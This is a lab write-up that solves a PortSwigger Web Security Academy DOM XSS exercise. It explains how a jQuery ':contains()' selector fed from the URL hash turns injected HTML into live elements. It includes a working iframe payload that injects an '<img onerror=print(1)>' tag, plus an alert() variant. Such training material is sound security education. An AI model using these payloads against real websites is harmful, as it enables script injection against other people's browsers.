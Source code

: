 # Lab: DOM XSS in jQuery selector sink using a hashchange event

> Lab Objective: deliver an exploit to the victim that calls the `print()` function in their browser.

- When viewing the source code of the home page, you'll find this code snippet:

```html
<script>
  $(window).on("hashchange", function () {
    var post = $(
      "section.blog-list h2:contains(" +
        decodeURIComponent(window.location.hash.slice(1)) +
        ")"
    );
    if (post) post.get(0).scrollIntoView();
  });
</script>
```

![1st Screenshot](./Photos/1.png)

- Which scroll to a specific post based on the post title you write after the hash character in the URL, like this: `#It's All Just A Click Away`, this will scroll you to the post with that title.

- To exploit a code snippet like this you can use a payload like this:
  > View [Jump to Explanation](#Explanation)

```html
<iframe
  src="https://0a4d00200453b7fe80553f3800290064.web-security-academy.net/#"
  onload="this.src+='<img src=1 onerror=print(1)>'"
></iframe>
```

- Add the payload to the exploit server, then "View Exploit", the `print()` function is executed successfully.
  ![2nd Screenshot](./Photos/2.png)

- Then "Deliver exploit to victim", and the lab is solved successfully.
  ![3rd Screenshot](./Photos/3.png)

---

## Explanation

- This is the code snippet:

```html
<script>
  $(window).on("hashchange", function () {
    var post = $(
      "section.blog-list h2:contains(" +
        decodeURIComponent(window.location.hash.slice(1)) +
        ")"
    );
    if (post) post.get(0).scrollIntoView();
  });
</script>
```

- Let's break it line by line.

1. `$(window).on("hashchange": function () {`

   - The `hashchange` event is triggered whenever the value after the hash `#` character in the url has changed
   - For instance, `https://website/#Perseverance`.
   - Note: you can't trigger the `hashchange` event with the same value after the `#` twice, it's only triggered with the first try.

2. `$("section.blog-list h2:contains('Perseverance')");`

   - `decodeURIComponent(window.location.hash.slice(1))` thats the part that gets the value after the hash character.

     - For instance, `#Perseverance`, this function will get `Perseverance`

   - According to example, `section.blog-list h2:contains('Perseverance')` it has two cases:

     - There is an h2 object that contains our keyword "Perseverance", if exist it will get it.
       ![4th Screenshot](./Photos/4.png)

     - If that object doesn't exist, the length will be zero, and nothing is returned.

       > Note: I've removed a character from the keyword so that the object doesn't exist.

       ![5th Screenshot](./Photos/5.png)

3. `var post = $("section.blog-list h2:contains('Perseverance')");`

   - In case the h2 tag that contains the keyword (e.g., `Perseverance`) exists:
     ![6th Screenshot](./Photos/6.png)

   - In case it doesn't exist:

     - But it still returns an object although there is no h2 tag found and returned.

       ![7th Screenshot](./Photos/7.png)

4. Here is a good notice if `h2:contains()` function doesn't find the h2 tag with specified keyword but you entered the keyword another tag like this: `<h1>Hello World</h1>`, it will create that tag and return it with the object returned.
   ![8th Screenshot](./Photos/8.png)

   - Therefore, I'll be able to append it in the page or deal with as a normal h1 tag.

5. Using the previous note, when using this keyword `<img src=x onerror=alert()>`, like that `var post = $("section.blog-list h2:contains(<img src=x onerror=alert()>)");`, although I didn't append to the DOM Hierarchy or anything, it's still interpreted and the `alert()` function is executed, using the fact that any tag with a `src` attribute will initiate a HTTP Request to the value given to it.
   ![9th Screenshot](./Photos/9.png)

6. In this step I need a tag that will automate this script, So I'll use an `iframe` tag, The Final payload will be something like this:
   - which will the load the web page firstly, then the JS event handler will add the `img` tag => `<img src=1 onerror=print(1)>`

```html
<iframe
  src="https://0a4d00200453b7fe80553f3800290064.web-security-academy.net/#"
  onload="this.src+='<img src=1 onerror=print(1)>'"
></iframe>
```

---
